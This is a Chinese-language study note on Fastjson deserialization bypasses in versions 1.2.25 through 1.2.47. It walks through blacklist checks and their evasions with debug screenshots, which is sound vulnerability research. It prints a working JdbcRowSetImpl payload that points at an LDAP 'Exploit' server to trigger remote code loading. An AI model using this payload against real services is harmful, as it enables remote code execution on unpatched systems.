# FastJson1.2.25 修复了1.2.24的漏洞但是有绕过需要 autoType开启


## 环境 在1.2.24的环境下修改pom.xml 版本为1.2.25  

我们再次使用 ldap的payload试试  


  


报错 autoType不支持 `com.sun.rowset.JdbcRowSetImpl`  


我们debug到 checkAutoType方法  
checkAutoType机制是从1.2.25开始的  


  
开启 autoType的话对于不在黑名单中的类名进行绕过  

debug看到的黑名单  


  
可以看到只要 开头是L 结尾是; 就可以绕过
但是需要开启 autoType 才可以  
不然还是会报错不支持  

然后从1.2.42后修复了这个可能存在问题的问题(需要开启autoType)  

## 怎么修复的 (L开头 ;结尾 需要autoType的)  
加入开头和结尾是L和; 那么就将头和尾去掉 再进行黑名单验证  
  


并且将黑名单验证变成了hash的方式 防止安全人员进行研究  

  


## 对于这个去掉L和；的绕过 就是再加一层就可以了  

`LLcom.sun.rowset.JdbcRowSetImpl;;`  

## 对于上面这个的补丁  
如果开头有两个LL就会抛出异常  


## 网上别人写好的解出来的 黑名单
`https://github.com/LeadroyaL/fastjson-blacklist`  


## Fastjson1.2.45 绕过黑名单 是使用黑名单没有的  

这里需要安装额外的库 mybatis  

```xml
<dependency>
    <groupId>org.mybatis</groupId>
    <artifactId>mybatis</artifactId>
    <version>3.5.5</version>
</dependency>
```

触发的话还是需要开启 autotype  
我的fastjson是 1.2.42 ~ 1.2.45版本  
进入checkAutoTye  
  
虽然没有在黑名单 但是没有开启任意类进行反序列化所以不会执行  
如果开启了就跟之前的ldap方式一样的了  

## <1.2.47 无需开启autoType


### payload

```json
{    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://localhost:1389/Exploit",
        "autoCommit":true
    }
}
```

这个是利用了 fastjson解析的时候会先把反序列的化的缓存类对象到 mappings  

先发一个 请求  

```json
{
    "@type":"java.lang.Class",
    "val":"com.sun.rowset.JdbcRowSetImpl"
}
```

先进入checkAutoType 因为没有再黑名单可以过去  
  

使用TypeUtils.loadClass 加载类  
  


从mappings缓存中获取  
  
mappings 是在反序列化中处理一些基础类提供效率  
没有添加进去  

  

在 checkAutoType 方法中会有先通过下面方法从mappings中加载  
会先于黑名单过滤  
clazz = TypeUtils.getClassFromMapping(typeName);  



可以看到可以成功加载  
  


后面就是跟之前的一样了  
  

无需autoType因为通过缓存形式绕过了  

